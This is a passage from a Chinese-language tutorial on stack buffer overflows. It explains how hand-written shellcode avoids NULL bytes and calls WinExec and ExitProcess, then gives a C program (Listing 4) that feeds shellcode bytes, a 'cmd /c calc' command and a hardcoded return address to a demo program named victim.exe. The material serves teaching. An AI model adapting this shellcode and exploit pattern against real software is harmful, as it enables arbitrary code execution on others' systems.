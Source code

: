 ### 代码解释

关于代码的一些解释：

```
sub esp, 28h
```

在函数退出的时候会首先回收函数的局部变量的栈长度，刚刚写入stack的部分代码现在被声明为无效了，这就意味着程序将会把这部分stack分配给别的函数调用使用，从而破坏我们刚刚写入的代码，因此我们的第一个代码就是将ESP减40个字节（相应的stack增长了40个字节）。

```
jmp calling
```

下一行语句跳转到WinExec函数参数压栈的代码。

我们需要注意以下几点：

第一，NULL值必须通过精心构造的方法获得，因为如果我们直接写一个0的话，将会在strcpy的时候被当成是字符串结尾而导致后面的代码无法被写入堆栈。

因此只能把字符串放在最后。

我们知道，调用call指令的时候，会自动将下一个指令的指针压入stack作为返回地址，我们可以利用这个特性来把字符串和字符串的地址压入堆栈。

为此我们首先跳转到calling语句的位置，将第二个参数压入堆栈，然后调用call，将后面的地址压入堆栈，接着开始顺序调用WinExec和ExitProcess，下图是调用顺序，方便的计算各个变量的值。

![输入图片说明](https://images.gitee.com/uploads/images/2020/0818/101913_fa1f25e2_508704.png)

我们看到，我们的例子没有考虑EBP压栈的大小，这是因为我们假设使用VC7编译，该编译器不向堆栈压入EBP寄存器的内容。

剩下的工作就是把上面的代码转换为二进制格式并完成程序进行测试了，下面是代码：

- Listing 4 – Exploit of a program victim.exe

```c
char *victim = "victim.exe";
char *code = "\x90\x90\x90\x83\xec\x28\xeb\x0b\xe8\xe2\xa8\xd6\x77\x50\xe8\xc1\x90\xd6\x77\x33\xc0\x50\xe8\xed\xff\xff\xff";
char *oper = "cmd /c calc||";
char *rets = "\xc0\xfe\x12";
char par[42];

void main()
{
    strncat(par, code, 28);
    strncat(par, oper, 14);
    strncat(par, rets, 4);

    char *buf;
    buf = (char*)malloc( strlen(victim) + strlen(par) + 4);

    if (!buf)
    {
        printf("Error malloc");
        return;
    }

    wsprintf(buf, "%s \"%s\"", victim, par);
    printf("Calling: %s", buf);
    WinExec(buf, 0);

}
```

